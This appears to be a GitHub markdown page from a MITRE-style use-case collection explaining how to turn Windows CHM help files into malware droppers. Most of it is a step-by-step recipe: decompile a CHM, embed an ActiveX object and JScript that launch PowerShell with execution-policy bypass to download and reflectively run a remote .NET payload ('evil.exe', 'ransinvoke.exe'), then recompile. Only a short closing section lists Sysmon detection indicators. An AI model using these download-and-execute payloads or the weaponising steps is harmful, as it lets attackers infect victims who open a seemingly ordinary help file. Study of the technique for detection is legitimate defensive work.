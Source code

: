 ## Compiled HTML Application

CHM files are help files in windows, just like the following

![NormalCHM](https://raw.githubusercontent.com/karemfaisal/SMUC---Simplified-Mitre-Use-Cases/master/Compiled%20HTML%20Apllication/Misc/NormalCHM.jpg)

this is the CHM file that came with process explorer from SysInternals, and like any windows based HTML files, it support *JS code* , so we can use JS to run PowerShell commands



if you have CHM file and you want to embed PowerShell script inside it, first you have to decompile the file

```powershell
hh.exe -decompile Extract doc.chm
```

you then we got many files htm and hhc file, open one of the htm and put this inside it

```xml
<OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
<PARAM name="Command" value="ShortCut">
 <PARAM name="Button" value="Bitmap::shortcut">
 <PARAM name="Item1" value=",cmd.exe,/c powershell -ep Bypass -nop -noexit -c ([System.Reflection.Assembly]::Load((New-Object Net.WebClient).DownloadData('http://[Remote_IP]/evil.exe')).EntryPoint.Invoke($Null,$Null))">
 <PARAM name="Item2" value="273,1,1">
</OBJECT>

<SCRIPT>
x.Click();
</SCRIPT>
```

we created object with id x and put the PowerShell command in one of it's parameters then in the script tag we clicked on the object which fires the PowerShell

*about he entry point and invoke part, it will only work with .Net application so evil.exe must be .Net* 



we also can use chm as JS code so we can write malicious JS code inside the script tag and what's great about that is ***no Wscript process is created***, 

```vbscript
a = new ActiveXObject('Wscript.Shell');
cmd = "powershell -ep Bypass -nop -noexit -c ([System.Reflection.Assembly]::Load((New-Object Net.WebClient).DownloadData('http://[IP]/ransinvoke.exe')).EntryPoint.Invoke($Null,$Null))";
a.Run(cmd,0);
```



but what is not good that user got a displayed warning

![ActiveXunsafe](https://raw.githubusercontent.com/karemfaisal/SMUC---Simplified-Mitre-Use-Cases/master/Compiled%20HTML%20Apllication/Misc/ActiveXunsafe.JPG)

if user didn't click yes, the ActiveX object will not run, but also many error in chm will happen



After writing the above code into the htm file we need to compile it into chm file as example



**Steps for creating Malicious CHM**:



if we decompile the chm file and we got 

- doc.hhc
- doc.htm
- doc.htm2



1- we will open doc.html or doc htm2 and append the above malicious code into it

2- then we will write the following hpp file

```powershell
[OPTIONS]
Contents file=C:\Users\Noname\Downloads\PowerCollectionsCHM\mal\doc.hhc
[FILES]
C:\Users\Noname\Downloads\PowerCollectionsCHM\mal\doc.htm
C:\Users\Noname\Downloads\PowerCollectionsCHM\mal\doc1.htm
```

3- compile the file using

```powershell
C:\Program Files (x86)\HTML Help Workshop\hhc.exe' .\doc.hpp
```


### Detection

- sysmon
  - Process Creation
    - hh.exe process create with command line referring to the chm file
    - cmd process with hh.exe as parent (if Jscript would fire cmd and PS)
    - PowerShell process with cmd as parent, the same cmd that has hh.exe as parent (if Jscript would fire cmd and PS)

![Mermaid](https://raw.githubusercontent.com/karemfaisal/SMUC---Simplified-Mitre-Use-Cases/master/Compiled%20HTML%20Apllication/Misc/Mermaid.jpg)


### Reference

[Link1] https://gist.github.com/mgeeky/cce31c8602a144d8f2172a73d510e0e7  "cheat sheet"

